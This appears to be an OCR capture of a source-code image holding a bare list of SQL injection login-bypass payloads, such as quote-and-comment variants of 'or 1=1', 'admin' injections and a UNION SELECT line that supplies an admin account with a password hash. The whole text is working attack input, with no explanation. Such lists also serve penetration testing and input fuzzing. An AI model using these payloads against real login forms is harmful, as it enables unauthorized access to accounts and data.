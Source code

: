 ```bash
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
==
=
'
' --
' #
' –
'--
'/*
```